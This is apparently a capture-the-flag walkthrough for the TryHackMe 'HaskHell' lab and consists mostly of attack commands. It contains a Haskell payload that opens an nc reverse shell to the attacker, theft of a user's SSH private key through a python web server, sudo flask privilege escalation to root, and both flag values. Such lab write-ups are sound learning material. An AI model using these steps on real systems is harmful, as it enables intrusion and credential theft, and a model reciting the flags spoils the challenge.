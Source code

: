 
# <div align="center">[HaskHell](https://tryhackme.com/r/room/haskhell)</div>
<div align="center">Teach your CS professor that his PhD isn't in security</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/22815413-4b47-4523-ab64-26ea043316c3" height="200"></img>
</div>

# Task 1. HaskHell

Show your professor that his PhD isn't in security.

Please send comments/concerns/hatemail to @passthehashbrwn on Twitter.

### Get the flag in the user.txt file.
```
flag{academic_dishonesty}
```
```
sudo nmap -sSCV <IP>
http://<IP>:5001/submit

#!/usr/bin/env runhaskhell
module Main where
import System.Process
main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 4444 >/tmp/f"


nc -nlvp 4444
whoami
id
ls -la /home
cd /home/prof/.ssh/
ls -la
which python3
python3 -m http.server
wget http://<IP>:8000/id_rsa

chmod 600 id_rsa
ssh -i id_rsa prof@<IP>
cat /home/prof/user.txt
```
### Obtain the flag in root.txt
```
flag{im_purely_functional}
```
```
SHELL=/bin/bash script -q /dev/null
sudo -l
ls -l /usr/bin/flask
file /usr/bin/flask
cat /usr/bin/flask
python3 /usr/bin/flask


cat > shell.py << EOF
> #!/usr/bin/env python3
> import pty
> pty.spawn("/bin/bash")
> EOF

export FLASK_APP=shell.py
sudo /usr/bin/flask run
whoami
cat /root/root.txt
```
